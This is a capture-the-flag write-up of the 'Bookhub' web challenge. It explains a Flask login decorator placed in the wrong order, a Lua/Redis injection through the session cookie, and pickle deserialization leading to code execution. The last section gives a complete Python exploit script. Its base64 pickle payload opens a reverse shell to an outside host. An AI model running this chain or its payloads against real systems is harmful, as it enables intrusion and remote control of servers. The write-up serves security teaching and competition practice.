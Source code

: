 # Bookhub (web, 19 solved, 208p)

```
How to pwn bookhub?

http://52.52.4.252:8080/

hint: www.zip
```

In the task we get access to a webpage which displays some books information.
There is also `admin login` page, but doesn't seem to be vulnerable in any way.
We also get the [source code](www.zip).

From the whole source code there are really only 2 things that are of interest:

- `views/user.py`
- `forms/user.py`

## Broken authentication decorator

First vulnerability in the code is:

```python
@login_required
@user_blueprint.route('/admin/system/refresh_session/', methods=['POST'])
def refresh_session():
```

It seems just fine, but the `proper` function is for example:

```python
    @user_blueprint.route('/admin/system/change_name/', methods=['POST'])
    @login_required
    def change_name():
```

The difference is the order of decorators!
It seems that re-ordering the decorators actually makes the `login_required` useless, and it doesn't get triggered.
As a result we can call this method, as long as we're running the `debug mode`, since all of this is inside `if app.debug:`

We can at least confirm this to work locally.

## Finding debug server

Another interesting part of the code is:

```python
def validate_password(self, field):
    address = get_remote_addr()
    whitelist = os.environ.get('WHITELIST_IPADDRESS', '127.0.0.1')

    # If you are in the debug mode or from office network (developer)
    if not app.debug and not ip_address_in(address, whitelist):
        raise StopValidation(f'your ip address isn\'t in the {whitelist}.')

    user = User.query.filter_by(username=self.username.data).first()
    if not user or not user.check_password(field.data):
        raise StopValidation('Username or password error.')
```

Whitelist check is particularly important, because once we try to login on the webpage we get back:

```
your ip address isn't in the 10.0.0.0/8,127.0.0.0/8,172.16.0.0/12,192.168.0.0/16,18.213.16.123.
```

What is `18.213.16.123`?
It's not a local address, nor addres of the server we're using.
We scanned this IP and got back few open ports.
One was of particular interest because http://18.213.16.123:5000 was running the same application, but in `debug mode` (indicated by a warning on the main page).

We confirmed that we can trigger `/admin/system/refresh_session/` here, just as on local debug environment.
This was the only available endpoint, so we focused on figuring out how we can use it.

## Redis injection

The endpoint mentioned earlier allows us to delete all user sessions, apart from ours, from Redis.
Redis is a key-value store, and it seems it's storing session information for this particular application.

Code we're interested in is:

```python
    @login_required
    @user_blueprint.route('/admin/system/refresh_session/', methods=['POST'])
    def refresh_session():
        """
        delete all session except the logined user

        :return: json
        """

        status = 'success'
        sessionid = flask.session.sid
        prefix = app.config['SESSION_KEY_PREFIX']

        if flask.request.form.get('submit', None) == '1':
            try:
                rds.eval(rf'''
                local function has_value (tab, val)
                    for index, value in ipairs(tab) do
                        if value == val then
                            return true
                        end
                    end
                
                    return false
                end
                
                local inputs = {{ "{prefix}{sessionid}" }}
                local sessions = redis.call("keys", "{prefix}*")
                
                for index, sid in ipairs(sessions) do
                    if not has_value(inputs, sid) then
                        redis.call("del", sid)
                    end
                end
                ''', 0)
            except redis.exceptions.ResponseError as e:
                app.logger.exception(e)
                status = 'fail'

        return flask.jsonify(dict(status=status))
```

The really interesting part is, the fact that the code is reading the value of our session cookie, and then it's bulding some Lua-Redis code with this value, and then this code is executed by Redis.

But what if we provide session id with `"` inside?
We will break out of `local inputs = {{ "{prefix}{sessionid}" }}` and basically gain a Redis injection!

We could set for example session to:

```
session = 'k",redis.call("set","bookhub:session:k","some value we want"),"'
```

And by executing the mentioned endpoint, we would actually execute:

```
redis.call("set","bookhub:session:k","some value we want")
```

Keep in mind this endpoint removes all sessions, apart form ours, so we provide `k` as our sesion name for `local inputs` variable, and then we set the session with the same name using injection.
This way our session stays in Redis.

We can automate this via script:

```python
session = 'k",redis.call("set","bookhub:session:k",{}),"'.format(inject_session)
url = "http://{}:5000/login/".format(IP)
r = requests.get(url, cookies={"bookhub-session": session})
token = re.findall('<input id="csrf_token" name="csrf_token" type="hidden" value="(.*)">', r.text)[0]
url = "http://{}:5000/admin/system/refresh_session/".format(IP)
r = requests.post(url, data={"csrf_token": token, "submit": "1"}, cookies={"bookhub-session": session})
print(r.text)
```

Keep in mind we need to get a CSRF token for example from `login` page, to be able to submit the POST to `admin/system/refresh_session/`.

Now we can inject a session of our choosing, but the question is: what exactly is the session format and what is stored there?

We have the local debug environment so we could create a user, login and then check what is stored in Redis for his session.
It turns out to be for example

```
b"\x80\x03}q\x00(X\n\x00\x00\x00_permanentq\x01\x88X\x06\x00\x00\x00_freshq\x02\x88X\n\x00\x00\x00csrf_tokenq\x03X(\x00\x00\x003fb61e9f34fe74b112d75ce040a1e202acdd91a0q\x04X\a\x00\x00\x00user_idq\x05X\x01\x00\x00\x001q\x06X\x03\x00\x00\x00_idq\aX\x80\x00\x00\x009fb9e4587a4b3efecccd22ba061e060151bd66fde715982b649fdf4e597ad6f5292bda2812cc59b7c28b0517c45d6a17a235e455eec68e9fb511910a626198e5q\bu."
```

And if we check what serialized is used by default, it turns out to be Pickle.
We can unpickle the session to get back:

```
{'csrf_token': '3fb61e9f34fe74b112d75ce040a1e202acdd91a0', '_fresh': True, 'user_id': '1', '_permanent': True, '_id': '9fb9e4587a4b3efecccd22ba061e060151bd66fde715982b649fdf4e597ad6f5292bda2812cc59b7c28b0517c45d6a17a235e455eec68e9fb511910a626198e5'}
```

## Pickle RCE

There is no point in trying to craft a proper session value, since we already know the server will unpickle whatever we put there.
And pickle can be used for running pretty much any python code we want.
For reference look at:

- https://github.com/p4-team/ctf/tree/master/2015-12-27-32c3/gurke_misc_300#eng-version
- https://github.com/p4-team/ctf/tree/master/2018-04-11-hitb-quals/web_python

We go with a simple: `cos\nsystem\n(S'touch hacked'\ntR.` to verify it all works locally, and then we sent a simple python reverse shell to the server:

```python
import base64
import re

import requests


def main():
    IP = '18.213.16.123'
    try:
        session_content = base64.b64decode(
            'Y3Bvc2l4CnN5c3RlbQpwMQooUydweXRob24gLWMgXCdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgic2FzemEubmV0Iiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7cD1zdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwiLWkiXSk7XCcnCnAyCnRScDMKLg==')
        print(session_content)
        inject_session = 'string.char(' + ','.join([str(ord(x)) for x in session_content]) + ')'
        session = 'k",redis.call("set","bookhub:session:k",{}),"'.format(inject_session)
        url = "http://{}:5000/login/".format(IP)
        r = requests.get(url, cookies={"bookhub-session": session})
        token = re.findall('<input id="csrf_token" name="csrf_token" type="hidden" value="(.*)">', r.text)[0]
        url = "http://{}:5000/admin/system/refresh_session/".format(IP)
        r = requests.post(url, data={"csrf_token": token, "submit": "1"}, cookies={"bookhub-session": session})
        print(r.text)
    except Exception as e:
        print(str(e))


main()
```

And we got a reverse shell connection to our server.
From there we could simply look around and find `getflag` command and get the flag: `rwctf{fl45k_1s_a_MAg1cal_fr4mew0rk_t0000000000}`
